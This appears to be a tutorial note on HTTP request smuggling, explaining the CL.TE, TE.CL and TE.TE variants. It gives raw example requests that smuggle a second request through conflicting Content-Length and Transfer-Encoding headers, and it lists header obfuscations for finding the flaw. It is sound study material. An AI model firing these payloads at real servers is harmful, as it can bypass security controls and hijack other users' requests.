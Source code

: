 # HTTP Request Smuggling

HTTP request smuggling is a technique that is used to mess up the sequence of HTTP requests a website processes. These exploits are often critical in nature, as this can allow attackers to bypass security controls and gain access to sensitive data.

## Smuggling

When HTTP requests are sent to a server, the user sends requests to a front-end server, and then forward the traffic to the back-end. Typically, there are several requests sent over the same connection for maximizing efficiency. When HTTP requests are sent one after another, the receiving server parses the HTTP request headers **to determine where one request ends and the next one begins.**

It is normally processed in a queue data structure:

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Request smuggling happens when attackers embed a hidden request, which is then interpreted by the back-end as a separate request.

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Generally, the manipulation of the `Content-Length` or `Transfer-Encoding` headers allows for this. These headers count the length of the request sent differently.

* `Content-Length`
  * Counts the length of the message in bytes.
  * If we are sending a POST request with a parameter of `q=smuggle`, then the `Content-Length` header has a value of 9 as there are 9 characters.
* `Transfer-Encoding`
  * Specifies that the request uses **chunked encoding**.
  * Terminated by with a chunk size of zero.
  * Normally, browsers do not use chunked encoding, as they are normally used for **server responses.** Take note that it is possible to sent messages using this encoding as requests.

The message below has 1 chunk within it:

<pre class="language-http"><code class="lang-http">POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

<strong>b
</strong>q=smuggling
0
</code></pre>

Since the HTTP has 2 methods for specifying the message length, there can be conflicts in how they are processing messages. Requests can pass through different servers, and these servers might not support chunked encoding. The difference in behavior is what gives rise to this exploit.

### CL.TE

In this scenario, the front-end server uses the `Content-Length` header and the back-end uses the `Transfer-Encoding` header.

To exploit this, we can send in a request like this:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

hello!!!
```

The front-end server processes the Content-Length header and determines that the request body only contains 13 bytes of data (inclusive of `\r` characters) and forwards this request. The back-end then sees the request using chunked encoding, this processing the first chunk, which is stated to be 0 length and terminates the request.

The following bytes, the 'hello' portion is left unprocessed and the back-end server would treat this as **the start of the next request in sequence.** It is prepended to the next request in the queue.

One can send this request to check;

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Transfer-Encoding: chunked

e
q=smuggle&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the exploit works, 404 is returned, indicating that the request was changed. If this method does not work, then change the request to have one character, **which would cause a time delay**.

### TE.CL

In this scenario, the back-end server uses the `Content-Length` header and the front-end uses the `Transfer-Encoding` header.

We can now send this request:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
hello!!!
0
# \r\n\r\n goes here
```

The front-end uses TE to process the request, and sees that the first chunk of data is 8 bytes long. The back-end sees that the request body is 3 bytes long, which **is the newline and '8' character.** Then, the following bytes starting with the 'hello' portion is left unprocessed and the back-end server prepends this to the next request.

Here's one example payload, similar to the one above:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
GET /404 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

a=
0
```

### TE.TE

In this scenario, both the front and back use `Transfer-Encoding` to process requests. The exploit here has to do with **obfuscating the header**. Here are some examples of changing the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

The point of changing the header is to find whether the front and back end server processes it differently. Sometimes, obfuscation would change how the back-end server processes it, while the front-end sees it without difference. Fuzzing and good enumeration is key to identifying the vulnerability.

Depending on how the website processes information, the rest of the attack takes the same form as the CL.TE or TE.CL exploits.
